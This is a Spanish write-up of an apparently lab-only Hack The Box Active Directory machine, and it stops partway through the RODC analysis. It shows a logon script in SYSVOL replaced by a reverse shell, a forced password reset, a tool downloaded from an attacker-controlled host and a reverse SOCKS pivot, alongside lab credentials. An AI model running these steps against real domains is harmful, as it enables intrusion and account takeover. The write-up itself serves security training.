


## Info


*Garfield - HTB (Hard)*

Garfield es una máquina de dificultad *Hard* de **Hack the Box**.

> La **Cyber Kill Chain** comienza con acceso inicial mediante credenciales válidas y enumeración SMB/LDAP del dominio, donde se identifica una cuenta `krbtgt` secundaria que delata la presencia de un `Read-Only Domain Controller (RODC)`. Se abusa de permisos de escritura sobre el atributo `scriptPath` de un usuario para envenenar un logon script alojado en `SYSVOL` y obtener acceso como `l.wilson`, seguido de un `ForceChangePassword` identificado con **BloodHound** que permite comprometer a `l.wilson_adm`. A través de pivoting hacia una segunda interfaz de red se abusan los derechos delegados de `l.wilson_adm` sobre `RODC01` (membresía en `RODC Administrators` y modificación del atributo `managedBy`) para obtener privilegios de administrador local sobre el RODC, extraer la clave AES256 de su cuenta `krbtgt` secundaria, manipular su `Password Replication Policy` y forjar un Golden Ticket que se utiliza para ejecutar un **Key List Attack** con **Rubeus**, obteniendo así el hash NT del `Administrator` del dominio.
{: .prompt-info }

## Credenciales iniciales

Como es común en pentests reales, se proporcionan las siguientes credenciales iniciales.

| Usuario | Contraseña |
| :--- | :---: |
| j.arbuckle | Th1sD4mnC4t!@1978 |

## Nmap

### Escaneo de puertos

Comienzo realizando un escaneo completo de puertos TCP para identificar los servicios expuestos por el objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.129.244.207 -oG allPorts

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49677/tcp open  unknown
49678/tcp open  unknown
49889/tcp open  unknown
49916/tcp open  unknown
```

### Parseo de puertos

Para facilitar el siguiente escaneo, extraigo los puertos identificados del archivo grepable `allPorts` con una **RegEx** y los almaceno en la variable **ports**.

```shell
ports=$(cat allPorts | grep -oP '\d{1,5}(?=/open)' | xargs | tr ' ' ',')
```

> También puede utilizarse la función [extractPorts](https://pastebin.com/xNaZxRGA), añadiéndola previamente al archivo **.bashrc** o **.zshrc**.
{: .prompt-tip }

### Detección de versiones

```shell
nmap -sCV -p$ports 10.129.244.207 -oN version

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-04 06:45:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-06-04T06:46:32+00:00
|_ssl-date: 2026-06-04T06:47:12+00:00; +7h59m57s from scanner time.
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Not valid before: 2026-02-13T01:10:36
|_Not valid after:  2026-08-15T01:10:36
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

...SNIP...

Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m56s, deviation: 0s, median: 7h59m56s
| smb2-time: 
|   date: 2026-06-04T06:46:36
|_  start_date: N/A
```

Se visualizan puertos comunes relacionados con un Domain Controller, como Kerberos, LDAP, SMB y DNS. Continúo con la configuración inicial de Kerberos.

## Configuración inicial

### ntpdate

Recomiendo sincronizar la hora del equipo atacante con el Domain Controller, ya que Kerberos es sensible al **clock-skew**.

```shell
sudo ntpdate 10.129.244.207

2026-06-04 01:51:10.006009 (-0500) +28796.871826 +/- 0.063564 10.129.244.207 s1 no-leap
CLOCK: time stepped by 28796.871826
```

### /etc/hosts

Luego, genero las entradas necesarias para `/etc/hosts` utilizando `netexec`.

```shell
nxc smb 10.129.244.207 --generate-hosts-file hosts
cat hosts | sudo tee -a /etc/hosts

10.129.244.207     DC01.garfield.htb garfield.htb DC01
```

## DNS

Durante la enumeración reviso los servicios de menor a mayor. Para empezar, consulto el registro DNS `ANY` para obtener todos los registros DNS disponibles para el dominio.

```shell
dig ANY garfield.htb @10.129.244.207

; <<>> DiG 9.20.22-1-Debian <<>> ANY garfield.htb @10.129.244.207
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 55516
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;garfield.htb.			IN	ANY

;; ANSWER SECTION:
garfield.htb.		600	IN	A	10.129.244.207
garfield.htb.		600	IN	A	192.168.100.1
garfield.htb.		3600	IN	NS	dc01.garfield.htb.
garfield.htb.		3600	IN	SOA	dc01.garfield.htb. hostmaster.garfield.htb. 284 900 600 86400 3600
garfield.htb.		600	IN	AAAA	dead:beef::4df:a099:3b0d:7556

;; ADDITIONAL SECTION:
dc01.garfield.htb.	1200	IN	A	10.129.244.207
dc01.garfield.htb.	1200	IN	AAAA	dead:beef::4df:a099:3b0d:7556
```

Observo que el DC resuelve a **dos direcciones IP**, lo que sugiere que el servidor podría tener dos interfaces de red. Aún no puedo confirmarlo, pero lo tendré en cuenta para más adelante.

## SMB

Continuaré con el protocolo SMB, el fin es descubrir el alcance del usuario proporcionado. Y asimismo obtener usuarios, descripciones, shares disponibles entre otros.

### Enumeración de usuarios

```shell
nxc smb dc01 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --users

SMB         10.129.244.207  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.207  445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
SMB         10.129.244.207  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.244.207  445    DC01             Administrator                 2025-10-03 17:29:26 0       Built-in account for administering the computer/domain
SMB         10.129.244.207  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.244.207  445    DC01             krbtgt                        2025-08-13 11:05:26 0       Key Distribution Center Service Account
SMB         10.129.244.207  445    DC01             krbtgt_8245                   2025-08-17 11:33:39 0       Key Distribution Center service account for read-only domain controller
SMB         10.129.244.207  445    DC01             j.arbuckle                    2025-09-09 15:50:55 0
SMB         10.129.244.207  445    DC01             l.wilson                      2026-01-27 21:40:33 0
SMB         10.129.244.207  445    DC01             l.wilson_adm                  2026-01-13 14:56:35 0
SMB         10.129.244.207  445    DC01             [*] Enumerated 7 local users: GARFIELD
```

Lo más relevante de este resultado es:

| Username | Description |
| :--- | :--- |
| **krbtgt_8245** | Key Distribution Center service account for read-only domain controller |
| **l.wilson_adm** | Podría ser una cuenta administrativa separada perteneciente a la misma persona `l.wilson` |

### Contextualizando el entorno

Por lo que, según la descripción, puedo investigar un poco sobre el usuario **krbtgt_8245**; una aproximación sería:

> Cuenta asociada que suele crearse automáticamente para un **controlador de dominio de solo lectura (RODC)**, y cuya sola presencia suele delatar la existencia de un RODC en el entorno. Más info: [aquí](https://adsecurity.org/?p=483).
{: .prompt-info}

Esto me lleva a cuestionar sobre **Read-Only Domain Controllers (RODC)**.

> Según la [documentación de Microsoft](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc755058(v=ws.10)), un **RODC** es un controlador de dominio adicional que almacena una **copia de solo lectura de la base de datos de AD**, pensado principalmente para oficinas sucursales con pocos usuarios, menor seguridad física, conexiones limitadas hacia la sede central y poco soporte de TI local. [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/builtins/rodc#theory) añade que esa copia está además **filtrada**: se eliminan atributos sensibles (RODC Filtered Attribute Set, FAS) y **solo se almacenan en caché credenciales específicas**.
{: .prompt-info}

> Microsoft proporciona además esta [guía detallada](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc772234(v=ws.10)) sobre RODC, por si quieres profundizar.
{: .prompt-tip}

Con estos conceptos explicados a alto nivel, continúo con la enumeración de SMB shares.

### Shares

```shell
nxc smb dc01 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares

SMB         10.129.244.207  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.207  445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
SMB         10.129.244.207  445    DC01             [*] Enumerated shares
SMB         10.129.244.207  445    DC01             Share           Permissions     Remark
SMB         10.129.244.207  445    DC01             -----           -----------     ------
SMB         10.129.244.207  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.244.207  445    DC01             C$                              Default share
SMB         10.129.244.207  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.244.207  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.244.207  445    DC01             SYSVOL          READ            Logon server share 
```

No se muestra ningún share diferente o personalizado, así que reviso `SYSVOL`, sobre el cual ya hablé en [BabyTwo](https://f4dee-backup.github.io/babytwo_htb/#sysvol).

#### SYSVOL

```shell
smbmap -H dc01 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -r "SYSVOL" --depth 2 --no-banner

Disk                                                  	Permissions	Comment
----                                                  	-----------	-------
ADMIN$                                            	NO ACCESS	Remote Admin
C$                                                	NO ACCESS	Default share
IPC$                                              	READ ONLY	Remote IPC
NETLOGON                                          	READ ONLY	Logon server share
SYSVOL                                            	READ ONLY	Logon server share
./SYSVOL
dr--r--r--                0 Wed Aug 13 06:04:51 2025	.
dr--r--r--                0 Wed Aug 13 06:04:51 2025	..
dr--r--r--                0 Wed Aug 13 06:04:51 2025	garfield.htb
./SYSVOL//garfield.htb
dr--r--r--                0 Wed Aug 13 06:11:04 2025	.
dr--r--r--                0 Wed Aug 13 06:11:04 2025	..
dr--r--r--                0 Thu Jun  4 01:34:04 2026	DfsrPrivate
dr--r--r--                0 Wed Aug 13 06:04:51 2025	Policies
dr--r--r--                0 Tue Jan 27 17:13:47 2026	scripts
./SYSVOL//garfield.htb/Policies
dr--r--r--                0 Wed Aug 13 06:04:51 2025	.
dr--r--r--                0 Wed Aug 13 06:04:51 2025	..
dr--r--r--                0 Wed Aug 13 06:04:51 2025	{31B2F340-016D-11D2-945F-00C04FB984F9}
dr--r--r--                0 Wed Aug 13 06:04:51 2025	{6AC1786C-016F-11D2-945F-00C04fB984F9}
./SYSVOL//garfield.htb/scripts
dr--r--r--                0 Tue Jan 27 17:13:47 2026	.
dr--r--r--                0 Tue Jan 27 17:13:47 2026	..
fr--r--r--              217 Fri Sep 12 17:25:38 2025	printerDetect.bat
```

Como se observa, existe un **archivo batch** en `SYSVOL`, por lo que lo descargo para inspeccionarlo.

```shell
smbclient //dc01/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' -c "get garfield.htb\scripts\printerDetect.bat" && mv *.bat printerDetect.bat

getting file \garfield.htb\scripts\printerDetect.bat of size 217 as garfield.htb\scripts\printerDetect.bat (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

> Para más contexto sobre este tipo de archivos [aquí](https://www.huntress.com/cybersecurity-101/topic/what-is-a-bat-file).
{: .prompt-info }

#### Análisis de printerDetect.bat

Este es el contenido de `printerDetect.bat`

```bat
@echo off
echo Detecting installed printers...
echo ==============================
wmic printer get Name,DeviceID,PortName,DriverName,Shared,Status /format:table
echo.
echo Printer detection completed.
pause
```

El script detecta y muestra la lista de impresoras instaladas en Windows junto con algunos detalles técnicos (nombre, controlador, puerto, si está compartida y su estado). El share **NETLOGON** también está disponible, pero la evidencia mostrada del archivo procede de **SYSVOL**. Por ello, me centro en `SYSVOL` como ubicación del logon script que voy a modificar.

#### ¿Permisos de escritura en SYSVOL?

Comprobaré si tengo permisos de escritura por aquí, subiendo el mismo archivo obtenido, es decir, `printerDetect.bat`. Enfoque similar usado en [BabyTwo](https://f4dee-backup.github.io/babytwo_htb/#poison-a-vbscript)

```shell
smbclient //dc01/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' -c "put ./printerDetect.bat \garfield.htb\scripts\printerDetect.bat"

putting file ./printerDetect.bat as \garfield.htb\scripts\printerDetect.bat (0.6 kB/s) (average 0.6 kB/s)
```

El mensaje es **exitoso**, lo que demuestra que tengo permisos de escritura; sin embargo, si no fuese posible, mostraría un mensaje como este: `NT_STATUS_ACCESS_DENIED opening remote file \printerDetect.bat`

## Envenenando el atributo scriptPath

Usaré una reverse shell generada en [revshells.com](https://www.revshells.com/) específicamente la `PowerShell #3 (Base64)` para que, cuando cualquier usuario inicie sesión, ejecute el script batch con mis instrucciones y me envíe la shell hacia mi listener de netcat.

```shell
echo '<REVSHELL BASE64 POWERSHELL>' > printerDetect.bat
```

Lo subo, sobrescribiendo el archivo original.

```shell
smbclient //dc01/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978' -c "put ./printerDetect.bat \garfield.htb\scripts\printerDetect.bat"

putting file ./printerDetect.bat as \garfield.htb\scripts\printerDetect.bat (2.2 kB/s) (average 2.2 kB/s)
```

Me pongo en escucha con netcat por el puerto 443; sin embargo, no obtengo por el momento ninguna sesión.

Esto tiene sentido: **tener permisos de escritura sobre `SYSVOL` no implica, por sí solo, que mi archivo vaya a ejecutarse**. Para convertir esa modificación en un vector de ejecución necesito además que el usuario víctima tenga ese script asociado a su logon mediante el atributo `scriptPath`. Por eso, el siguiente paso es enumerar los objetos sobre los que `j.arbuckle` tiene permisos de escritura.

### Búsqueda de objetos escribibles

Trataré pues ahora de obtener los objetos que sean escribibles por el usuario `j.arbuckle`.

```shell
bloodyad -H dc01 -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' get writable --right WRITE --detail

...SNIP...

distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE
```

Bien, tengo permisos de escritura sobre el atributo [scriptPath](https://learn.microsoft.com/en-us/windows/win32/adschema/a-scriptpath) de los usuarios **Liz Wilson y Liz Wilson ADM**. Intentaré ahora modificar el atributo `scriptPath` de estos usuarios, para asociar mi `printerDetect.bat` malicioso al logon del usuario.

### Envenenando el scriptPath de l.wilson

Comienzo con el usuario `l.wilson_adm`, sin embargo no obtengo nada. Intento con `l.wilson`.

```shell
bloodyad -H dc01 -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' set object l.wilson scriptPath -v 'printerDetect.bat'

[+] l.wilson's scriptPath has been updated
```

Y confirmo.

```shell
bloodyad -H dc01 -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' get object l.wilson --attr scriptPath

distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
scriptPath: printerDetect.bat
```

Después de un momento el usuario **l.wilson** inicia sesión, Windows procesa el logon script asociado mediante `scriptPath` y recibo una sesión con sus privilegios.

```shell
rlwrap -cAr nc -lnvp 443 

listening on [any] 443 ...
connect to [10.10.16.43] from (UNKNOWN) [10.129.244.207] 55488
PS C:\Windows\system32> whoami
garfield\l.wilson
```

Empiezo con la enumeración básica, pero no encuentro nada interesante por el momento. Con una shell y las credenciales iniciales, el siguiente paso es usar BloodHound para obtener relaciones y ACLs del dominio.

## BloodHound

### bloodhound-python

Utilizaré `bloodhound-python` como recolector para obtener las relaciones y ACLs del dominio.

```shell
bloodhound-python -c All -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -ns 10.129.244.207 --zip
```

Para facilitar el despliegue usaré la función [BloodInstall](https://f4dee-backup.github.io/babytwo_htb/#funci%C3%B3n-bloodinstall).

### Función BloodInstall

```shell
BloodInstall

...SNIP...
[+] BloodHound is ready to go!
[+] You can log in as `admin` with this password: cKq4acssp3EXbBI8fdJTCSBadgBaHVqp
[+] You can get your admin password by running: bloodhound-cli config get default_password
[+] You can access the BloodHound UI at: http://127.0.0.1:8080/ui/login
```

## Lateral movement to l.wilson_adm

### ForceChangePassword

Después de subir el comprimido a BloodHound, se muestra lo siguiente:


*ForceChangePassword sobre l.wilson_adm*

El usuario `l.wilson` tiene el permiso `ForceChangePassword` sobre `l.wilson_adm`, lo que le permite **restablecer su contraseña sin conocer la actual**.

Por lo que aprovecho la sesión obtenida para cambiar la contraseña de `l.wilson_adm`.

```powershell
$NewPassword = ConvertTo-SecureString -String 'Ul7R4M3g4S3cUr3P4ssw0rd!2026' -AsPlainText -Force; Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $NewPassword -Reset
```

> La política de contraseña indica que la longitud mínima de contraseña es de 7 caracteres, por lo que puedes usar una contraseña más corta de la que usé ;).
{: .prompt-info }

Ahora valido con netexec.

```shell
nxc smb dc01 -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026'

SMB         10.129.244.207  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.244.207  445    DC01             [+] garfield.htb\l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026 
```

Credenciales válidas, y también por WinRM.

```shell
nxc winrm dc01 -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026'

WINRM       10.129.244.207  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:garfield.htb) 
WINRM       10.129.244.207  5985   DC01             [+] garfield.htb\l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026 (Pwn3d!)
```

No soy administrador local, pero al menos puedo acceder por WinRM.

## user.txt

Obtengo una shell como `l.wilson_adm` y también puedo obtener `user.txt`.

```shell
evil-winrm-py -i dc01 -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc01:5985' as 'l.wilson_adm'
evil-winrm-py PS C:\Users\l.wilson_adm\Documents> whoami
garfield\l.wilson_adm
evil-winrm-py PS C:\Users\l.wilson_adm\Documents> type ..\Desktop\user.txt
aff882d70ff251d6e17460632936cc56
```

Trataré de confirmar lo observado con `dig`.

## Reconocimiento interno

### Interfaces de red

```powershell
ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::c4ff:5747:1d3c:fba0%9
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 3:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::4df:a099:3b0d:7556
   Link-local IPv6 Address . . . . . : fe80::2af8:4228:b0a4:6db9%7
   IPv4 Address. . . . . . . . . . . : 10.129.244.207
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb0:d027%7
                                       10.129.0.1
```

Confirmo lo que se mostró en la salida de `dig`: DC01 tiene una segunda interfaz de red subred /24 con IP `192.168.100.1/24`.

### Descubrimiento de hosts internos

Realizaré descubrimiento de hosts en esta nueva interfaz de red.

```powershell
1..254 | % { if (ping -n 1 -w 50 192.168.100.$_ | findstr "TTL=") { "[+] Host Active: 192.168.100.$_" } }

[+] Host Active: 192.168.100.1
[+] Host Active: 192.168.100.2
```

Después de un momento, identifico una segunda dirección IP: `192.168.100.2`, usaré los cmdlets de PowerShell para validar.

```powershell
Get-ADComputer -Filter * -Properties * | select Name, IPv4Address

Name   IPv4Address
----   -----------
DC01   10.129.244.207
RODC01 192.168.100.2
```

Se confirma la existencia de un segundo controlador de dominio, `RODC01`, alojado en el segmento interno `192.168.100.0/24`.

Por el momento esto ya va tomando forma :D, entonces lo que sigue es que como no tengo alcance hacia `RODC01`, es decir hacia este segmento de red, antes de proseguir haré un poco de pivoting a través de la sesión de `l.wilson`.

## Pivoting

### Túnel SOCKS + Proxychains

Usaré [chisel](https://github.com/jpillora/chisel) para crear un servidor SOCKS y proxychains (lo sé, soy anticuado). Sin embargo, también existe una opción más moderna como [ligolo-ng](https://github.com/nicocha30/ligolo-ng), que suelo preferir en casos más complejos, especialmente si hay varios dominios, relaciones de confianza y problemas de [REALM](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772815(v=ws.10)#kerberos-realms-and-active-directory-domains) relacionados con el DNS.

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.11.5/chisel_1.11.5_linux_amd64.gz
gunzip chisel_1.11.5_linux_amd64.gz
rm -rf *.md *.tar.gz LICENSE
mv chisel_1.11.5_linux_amd64 chisel
chmod +x chisel
upx chisel

wget https://github.com/jpillora/chisel/releases/download/v1.11.5/chisel_1.11.5_windows_amd64.zip
unzip chisel_1.11.5_windows_amd64.zip
rm -rf chisel_1.11.5_windows_amd64.zip
upx chisel.exe
```

Desde la sesión de `l.wilson`, creo una carpeta en `C:\Windows\Temp` y transfiero el binario.

```shell
python3 -m http.server 80
```

```powershell
Invoke-WebRequest http://<YOUR_IP>/chisel.exe -OutFile C:\Windows\Temp\privesc\chisel.exe
```

Ahora inicio el servidor en mi host.

```shell
./chisel server --reverse -p 1234

2026/06/04 08:43:08 server: Reverse tunnelling enabled
2026/06/04 08:43:08 server: Fingerprint tlpE13eGUJpZFA0yUZMQb55WymWBg5C/dz9wWt19fWM=
2026/06/04 08:43:08 server: Listening on http://0.0.0.0:1234
```

Me conecto a mi host.

```powershell
.\chisel.exe client <YOUR_IP>:1234 R:socks
```

Edito el archivo `/etc/proxychains4.conf` y añado al final:

```shell
socks5 127.0.0.1 1080
```

Ahora confirmo el alcance.

```shell
sudo proxychains -q nxc smb 192.168.100.2

SMB         192.168.100.2   445    RODC01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:RODC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

### /etc/hosts 

Genero las entradas necesarias para `/etc/hosts`.

```shell
sudo proxychains -q nxc smb 192.168.100.2 --generate-hosts-file internal
cat internal | sudo tee -a /etc/hosts

192.168.100.2     RODC01.garfield.htb RODC01
```

### Validación SMB y WinRM

Y valido tanto por SMB como por WinRM.

```shell
sudo proxychains -q nxc smb rodc01 -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026'

SMB         224.0.0.1       445    RODC01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:RODC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         224.0.0.1       445    RODC01           [+] garfield.htb\l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026
```

```shell

sudo proxychains -q nxc winrm rodc01 -u 'l.wilson_adm' -p 'Ul7R4M3g4S3cUr3P4ssw0rd!2026'

WINRM       224.0.0.1       5985   RODC01           [*] Windows 10 / Server 2019 Build 17763 (name:RODC01) (domain:garfield.htb) 
WINRM       224.0.0.1       5985   RODC01           [+] garfield.htb\l.wilson_adm:Ul7R4M3g4S3cUr3P4ssw0rd!2026 (Pwn3d!)
```

El mismo escenario de `l.wilson_adm`. **NO** soy administrador local, pero puedo obtener una shell con WinRM. Ahora continuaré con BloodHound para identificar las ACLs del usuario `l.wilson_adm`.

## Lateral movement to Admin RODC01$

### AddSelf && WriteAccountRestrictions


*ACLs de l.wilson_adm*

BloodHound sitúa `l.wilson_adm` es miembro del grupo `Tier 1` y muestra que dispone de `AddSelf` sobre el grupo `RODC Administrators`, lo que le permite **añadirse a este grupo**. A partir de aquí trataré `l.wilson_adm` como una cuenta administrativa separada de la cuenta de uso diario `l.wilson`.

Por otro lado, el permiso [WriteAccountRestrictions](https://bloodhound.specterops.io/resources/edges/write-account-restrictions) sobre el objeto del equipo abre otra posibilidad: configurar `RBCD`. Permitiendo establecer qué cuentas pueden actuar en nombre de otros usuarios frente a los servicios de un equipo, mediante el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity`. Cuya explicación a alto nivel la realicé en la máquina [Shadows - THL](https://f4dee-backup.github.io/shadows_thl/#privesc-method-1-rbcd).

Por tanto, tengo dos posibles caminos de abuso. En esta ocasión optaré por la primera opción, investigando qué privilegios proporciona la pertenencia el grupo **RODC Administrators** y qué relación tiene con el **RODC**.

### Contextualizando el entorno

> La administración de los RODC permite **delegar derechos administrativos completos a una cuenta de usuario estándar o a un grupo de usuarios** sin otorgar permisos elevados de Active Directory. El cuadro de diálogo *Delegación de instalación y administración de RODC* permite configurar un usuario o grupo con permisos para asociar el servidor a la cuenta de equipo del RODC; **ese usuario o grupo obtiene permisos administrativos locales equivalentes al grupo `Administradores` del propio RODC** — [Delegation of RODC Installation and Administration](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/deploy/rodc/install-a-windows-server-2012-active-directory-read-only-domain-controller--rodc---level-200-?source=recommendations#delegation-of-rodc-installation-and-administration), [Administrator role separation - RODC](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-r2-and-2008/cc753223(v=ws.10)#administrator-role-separation)
{: .prompt-info }

> Pero ojo con esto: la pertenencia a RODC Administrators por sí sola **NO** implica necesariamente que el usuario tenga administración sobre un RODC concreto. Este grupo está relacionado con la **delegación de administración de los RODC**, pero la administración efectiva se determina mediante la configuración del objeto RODC, concretamente a través del atributo `managedBy`.
{: .prompt-warning }

